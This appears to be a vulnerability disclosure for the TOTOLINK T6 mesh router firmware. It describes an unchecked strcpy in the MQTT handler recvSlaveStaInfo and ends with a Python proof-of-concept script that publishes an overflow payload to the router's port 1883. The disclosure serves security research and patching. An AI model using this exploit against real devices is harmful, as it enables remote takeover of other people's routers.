


# Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a buffer overflow vulnerability that lead to RCE.

# Vulnerability details

The `T6` routers open `MQTT` service and listen on port `1883`. In function `recvSlaveStaInfo`. The `dest` buffer is 4 bytes, and the `strcpy` doesn't check for the length of input.




An attacker can implement a RCE attack by sending a malicious `MQTT` packet.



# POC

```python
import paho.mqtt.client as mqtt

payload = b"A" * 36 + b"\x37\x33\x33\x13"

client = mqtt.Client()
client.connect("192.168.0.1", 1883, 60)
client.publish("totolink/router/recvSlaveStaInfo",b'{"slavemac":"%s"}' % payload)
```